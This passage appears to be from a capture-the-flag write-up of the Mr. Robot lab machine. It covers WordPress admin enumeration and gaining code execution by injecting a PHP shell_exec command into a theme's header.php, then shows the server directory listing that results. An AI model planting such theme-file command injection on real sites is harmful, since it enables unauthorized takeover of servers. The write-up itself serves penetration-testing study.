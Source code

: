 The credentials are accepted via `/wp-admin`.

### WordPress enumeration

I browsed around WordPress admin and restored all posts and pages; scanning the source for any clues. 

Eventually I found another _user_ `mich05654` with following details:

```
Username: mich05654
Fullname: Krista Gordon
Email: kgordon@therapist.com
```

The user `elliot` also lists their email address as `elliot@mrrobot.com`.

### Finding remote code execution vulnerability

I noticed that I edit theme and plugins in the WordPress admin panel. So in the _Twenty Twenty_ theme's `header.php` file, I inject a tester command:
```php
<?php var_dump(shell_exec('ls -lah'));?>
```
Then navigate to the earlier URL, `/0`, where the WordPress is revealed. And we see that we can execute code on the server.

As the following code is displayed:

```
string(2302) "total 7.7M drwxr-x--- 12 bitnamiftp daemon 4.0K Nov 14 2015 . drwxr-xr-x 6 root root 4.0K Sep 16 2015 .. drwxr-xr-x 7 root root 4.0K Nov 14 2015 admin drwxr-xr-x 2 root root 4.0K Nov 14 2015 audio drwxr-xr-x 2 bitnamiftp daemon 4.0K Nov 14 2015 blog drwxr-xr-x 2 root root 4.0K Nov 14 2015 css -rw-r--r-- 1 bitnamiftp daemon 7.0M Nov 13 2015 fsocity.dic drwxr-xr-x 5 root root 4.0K Nov 14 2015 images -rw-r--r-- 1 root root 1.4K Nov 14 2015 index.html -rw-r--r-- 1 bitnamiftp daemon 418 Sep 3 2015 index.php -rw-r--r-- 1 root root 505K Nov 14 2015 intro.webm drwxr-xr-x 3 root root 4.0K Nov 14 2015 js -rw-r--r-- 1 bitnamiftp daemon 33 Nov 13 2015 key-1-of-3.txt -rw-r--r-- 1 bitnamiftp daemon 20K Nov 13 2015 license.bk -rw-r--r-- 1 bitnamiftp daemon 309 Nov 13 2015 license.txt -rw-r--r-- 1 bitnamiftp daemon 64 Nov 13 2015 readme.html -rw-r--r-- 1 bitnamiftp daemon 41 Nov 13 2015 robots.txt -rw-rw-r-- 1 bitnamiftp daemon 0 Sep 16 2015 sitemap.xml -rw-rw-r-- 1 bitnamiftp daemon 0 Sep 16 2015 sitemap.xml.gz drwxr-xr-x 2 root root 4.0K Nov 14 2015 video -rw-r--r-- 1 bitnamiftp daemon 4.9K Sep 3 2015 wp-activate.php drwxr-xr-x 9 bitnamiftp daemon 4.0K Sep 16 2015 wp-admin -rw-r--r-- 1 bitnamiftp daemon 271 Sep 3 2015 wp-blog-header.php -rw-r--r-- 1 bitnamiftp daemon 4.9K Sep 3 2015 wp-comments-post.php -rwxr-x--- 1 bitnamiftp daemon 3.7K Nov 14 2015 wp-config.php drwxrwxr-x 7 bitnamiftp daemon 4.0K Nov 13 2015 wp-content -rw-r--r-- 1 bitnamiftp daemon 3.3K Sep 3 2015 wp-cron.php drwxr-xr-x 12 bitnamiftp daemon 4.0K Sep 16 2015 wp-includes -rw-r--r-- 1 bitnamiftp daemon 2.4K Sep 3 2015 wp-links-opml.php -rw-r--r-- 1 bitnamiftp daemon 3.1K Sep 3 2015 wp-load.php -rw-r--r-- 1 bitnamiftp daemon 34K Sep 3 2015 wp-login.php -rw-r--r-- 1 bitnamiftp daemon 8.1K Sep 3 2015 wp-mail.php -rw-r--r-- 1 bitnamiftp daemon 11K Sep 3 2015 wp-settings.php -rw-r--r-- 1 bitnamiftp daemon 25K Sep 3 2015 wp-signup.php -rw-r--r-- 1 bitnamiftp daemon 4.0K Sep 3 2015 wp-trackback.php -rw-r--r-- 1 bitnamiftp daemon 3.0K Sep 3 2015 xmlrpc.php -rw-r--r-- 1 bitnamiftp daemon 33 Nov 13 2015 you-will-never-guess-this-file-name.txt " 
```
 
We can assume we can execute code. 
